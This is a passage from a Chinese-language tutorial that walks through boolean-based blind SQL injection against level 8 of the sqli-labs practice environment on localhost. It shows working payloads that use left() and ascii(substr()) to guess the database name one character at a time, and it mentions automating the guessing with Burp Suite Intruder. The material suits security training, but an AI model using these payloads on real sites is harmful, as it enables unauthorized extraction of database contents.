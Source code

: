 ###  c. 靶场演示    
  
此次实验演示的靶场是`sqli-labs-master`的**第8关**。  
  
我们先来看看靶场环境的正常页面  
  
```sql
http://localhost/sqli-labs-master/Less-8/?id=1
```  
  
页面显示如下
  
<img src="https://s1.ax1x.com/2020/10/11/0gwmhF.png">  
  
然后加个引号,返回的就是错误页面  
  
```sql
http://localhost/sqli-labs-master/Less-8/?id=1
```  
  
<img src="https://s1.ax1x.com/2020/10/11/0gwvuR.png">  
  
现在我们就可以开始布尔注入了，首先尝试一下使用`left`方法对数据库名进行注入。  
  
```
http://localhost/sqli-labs-master/Less-8/?id=1' and left((select database()),1)='a'--+
```  
  
页面返回`Wrong`页面，这就说明，数据库名的第一个字母并不是`a`。  
  
因为我们已知`sqli-labs`的数据库为`security`，所以我们直接测试。  
  
```
http://localhost/sqli-labs-master/Less-8/?id=1' and left((select database()),1)='s'--+
```  
果然返回了`True`页面，继续尝试第二个字母。  
      
```
http://localhost/sqli-labs-master/Less-8/?id=1' and left((select database()),2)='e'--+
```  
  
返回了`True`页面，依次类推，可以暴破出数据库名。  
  
要进一步的进行注入，只需要把`select database()`语句换成其他语句，就可以对表名，列名以及数据进行暴破。语句可以通过`Hackbar`自动化生成。   
  
当然暴破总不能纯手工，那样耗费时间精力，效率不高。可以使用`Burpsuite`的`Intruder`模块进行半自动化注入。这个后面会讲到。  
  
接下来我们探究一下`substr`在注入中使用，很多人问为什么要将截取的数据转化为`ascii`值。这是因为很多网站对`SQL`注入是做了防护的，而`ASCII`码可以很好地对`'`进行绕过  
  
<img src="https://s1.ax1x.com/2020/10/11/0grnV1.png">  
    
上图是一张`ascii`码的表，数据库各种元素的名字通常只有数字与字母组成，所以我们进行暴破的时候只需要从**48到122**之间暴破就可以了。  
  
```
http://localhost/sqli-labs-master/Less-8/?id=1' and  ascii(substr((select database()),1,1))=115--+
```  
  
### d.使用`burpsuite`进行暴破  

 
`burpsuite`用于暴破的模块是`Intruder`。  
